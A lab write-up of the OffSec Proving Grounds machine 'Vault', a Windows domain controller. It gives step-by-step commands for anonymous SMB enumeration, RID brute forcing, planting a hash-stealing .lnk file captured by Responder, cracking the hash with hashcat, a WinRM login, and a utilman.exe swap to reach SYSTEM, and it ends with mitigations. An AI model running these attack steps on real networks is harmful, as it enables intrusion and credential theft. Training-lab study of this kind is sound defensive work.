








# Vault (OffSec Proving Grounds)

`OffSec Proving Grounds` `Active Directory Privilege Escalation`

> Turning an anonymous SMB session into a captured domain credential, then abusing a backup privilege to pop a SYSTEM shell on the domain controller itself.

[← Back to index](../README.md)

---

## Machine Overview

Vault is a Windows domain controller. The hostname is DC, the domain is vault.offsec, and Windows Server 2019 sits underneath it. There is no web application here and no memory corruption either. The whole path runs through legitimate Windows features used the wrong way. A share that trusts guests too much, a hash that never needed to be stolen from disk because it could be coerced instead, and a privilege that was never meant to end up in a normal user's hands.

## Objective

Get a foothold as a domain user, then escalate to SYSTEM on the domain controller, capturing local.txt and proof.txt along the way.



*Nmap: full AD service set, domain vault.offsec, hostname DC, Windows Server 2019.*

## Step One: Enumeration

A full port scan across every TCP port painted a clear picture right away. Kerberos on 88, LDAP on 389 and 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, WinRM on 5985. This was not a lone Windows box, it was a domain controller, and both the certificate and the RDP banner confirmed the domain name, vault.offsec, and the hostname, DC.

**Command**

```
nmap -Pn -sC -sV -p- -T4 192.168.246.172
```

SMB was the obvious next stop. A null session listing of the available shares came back without needing any credentials at all.

**Command**

```
smbclient -L //192.168.246.172
```



*Shares enumerated anonymously, DocumentsShare stands out as non default.*

Every default administrative share was there, plus one that was not, DocumentsShare. That name alone was worth remembering for later.

## Step Two: User Enumeration

The domain controller also accepted a guest session with a blank password, and that alone is enough to enumerate the entire domain through RID cycling. CrackMapExec handled the brute forcing of relative identifiers automatically.

**Command**

```
crackmapexec smb 192.168.246.172 -u guest -p "" --rid-brute
```



*RID cycling exposes the full account list, including a real user, anirudh.*

Buried among the default built in groups and service accounts was a genuine user, VAULT\anirudh. That was the identity worth chasing.

## Step Three: Forced Authentication

DocumentsShare was empty, but the guest session had write access to it. That combination is a coercion opportunity, not a dead end. Instead of hunting for a stored file to steal, the plan was to plant a file that would steal something on its own. A malicious .lnk shortcut, built with hashgrab.py, does exactly that. The moment Explorer renders its icon, Windows resolves the icon path over SMB, and that resolution becomes an authentication attempt aimed straight at the attacker.

**Commands**

```
python3 ~/Desktop/Tools/hashgrab-main/hashgrab.py 192.168.45.166 doc1
sudo responder -I tun0 -A
smbclient \\\\192.168.246.172\\DocumentsShare
smb: \> put doc1.lnk
```

Responder was already listening when the shortcut landed on the share. It did not take long for a full NTLMv2SSP handshake for anirudh to show up in the capture.



*NTLMv2 handshake captured for anirudh, no password ever crossed the wire in cleartext.*

## Step Four: Cracking and Foothold

A captured NetNTLMv2 hash is not a password, it is a puzzle. Hashcat, pointed at the hash with the rockyou wordlist, solved it.

**Command**

```
hashcat -m 5600 ntlm.hash /usr/share/wordlists/rockyou.txt --force
```



*Password recovered: anirudh / SecureHM.*

With a real password in hand, WinRM was the natural way in, since it was already listening on 5985.

**Command**

```
evil-winrm -i 192.168.246.172 -u anirudh -p SecureHM
```



*Shell established as vault\anirudh, local.txt captured.*

local.txt: ccafec6f4ea5be9f53eba7d4ee5eb33d

## Step Five: Privilege Escalation

A shell on a domain controller is already interesting, but the privilege check made it more than that. Anirudh's token carried SeBackupPrivilege and SeRestorePrivilege, both enabled. Those two privileges exist so backup software can read or write any file on disk regardless of its permissions, and a normal domain user should never be handed either one.

**Command**

```
whoami /priv
```



*SeRestorePrivilege enabled, the door to SYSTEM.*

SeRestorePrivilege means the file system's normal access checks simply do not apply, so a protected binary can be swapped out directly. Utilman.exe, the accessibility tool available right from the Windows logon screen before anyone signs in, was the target.

**Commands**

```
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
rdesktop 192.168.246.172
WIN+U
```

The RDP session never needed a login. Pressing the Ease of Access shortcut at the logon screen ran what Windows still believed was Utilman, except it was cmd.exe now, and it ran as SYSTEM.



*SYSTEM reached, proof.txt captured, domain controller fully owned.*

proof.txt: 433d77a8fd628575cf0650fdb64ab462

## Attack Chain Summary

None of the individual steps here were exotic on their own. A guest session that should not have existed handed over the full account list. A writable share that should have been locked down turned into a way to coerce a credential instead of hunting for one. A cracked password opened a WinRM door that should have needed more than a single factor. And a backup privilege that never belonged on a standard user account turned into a straight line to SYSTEM on the domain controller itself. On a real domain, SYSTEM on the DC is not just a win on this one box. It is the whole forest, since NTDS.dit and every credential inside it live right there.

## Mitigations and Prevention

> **The fix:** Guest and anonymous SMB access should be disabled entirely on a domain controller, since RID cycling turns a blank password into a full account directory. Shares that accept anonymous writes need to be removed or locked to authenticated, authorized users only, since a writable share is as good as a credential harvesting tool once an attacker can drop a coercion file on it. SeBackupPrivilege and SeRestorePrivilege should be reserved for dedicated backup service accounts, never assigned to a standard interactive user, since either one alone is enough to bypass file level access control completely.

> **Framework mapping:** This chain maps cleanly to MITRE ATT&CK. Network and share discovery correspond to T1046 and T1135. RID cycling for account discovery is T1087.002. The coerced authentication capture is T1187, Forced Authentication. Offline cracking of the captured hash is T1110.002. The WinRM foothold with valid credentials pairs T1021.006 with T1078.002. And the Utilman swap at the logon screen is T1546.008, Event Triggered Execution through Accessibility Features, a technique specific enough to have its own entry in the framework.
